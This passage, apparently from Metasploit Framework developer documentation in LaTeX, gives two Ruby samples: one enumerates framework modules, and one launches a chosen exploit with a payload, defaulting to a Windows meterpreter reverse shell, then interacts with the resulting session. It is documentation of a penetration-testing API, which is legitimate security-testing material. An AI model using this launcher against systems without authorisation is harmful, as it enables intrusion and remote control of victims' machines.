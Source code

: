 \documentclass{report}
\begin{document}
\par
This sample demonstrates enumerating all of the modules in the
framework and displays their module type and reference name.

\footnotesize{
\begin{verbatim}
#!/usr/bin/ruby

$:.unshift(File.join(File.dirname(__FILE__), '..', '..', '..',
  'lib'))

require 'msf/base'

framework = Msf::Simple::Framework.create

# Enumerate each module in the framework.
framework.modules.each_module { |name, mod|
   puts "#{mod.type}: #{name}"
}
\end{verbatim}}

        \subsection{Running an exploit using framework base}

\par
This sample demonstrates using the framework core directly to
launch an exploit.  It makes use of the simplified exploit wrapper
method provided by the Msf::Simple::Exploit mixin.

\footnotesize{
\begin{verbatim}
#!/usr/bin/ruby

$:.unshift(File.join(File.dirname(__FILE__), '..', '..', '..',
   'lib'))

require 'msf/base'

if (ARGV.length == 0)
   puts "Usage: #{File.basename(__FILE__)} exploit_name payload_name OPTIONS"
   exit
end

framework    = Msf::Simple::Framework.create
exploit_name = ARGV.shift || 'test/multi/aggressive'
payload_name = ARGV.shift || 'windows/meterpreter/reverse_tcp'
input        = Rex::Ui::Text::Input::Stdio.new
output       = Rex::Ui::Text::Output::Stdio.new

begin
   # Initialize the exploit instance
   exploit = framework.exploits.create(exploit_name)

   # Fire it off.
   session = exploit.exploit_simple(
      'Payload'     => payload_name,
      'OptionStr'   => ARGV.join(' '),
      'LocalInput'  => input,
      'LocalOutput' => output)

   # If a session came back, try to interact with it.
   if (session)
      output.print_status("Session #{session.sid} created, interacting...")
      output.print_line

      session.init_ui(input, output)

      session.interact
   else
      output.print_line("Exploit completed, no session was created.")
   end

rescue
   output.print_error("Error: #{$!}\n\n#{$@.join("\n")}")
end
\end{verbatim}}
\end{document}
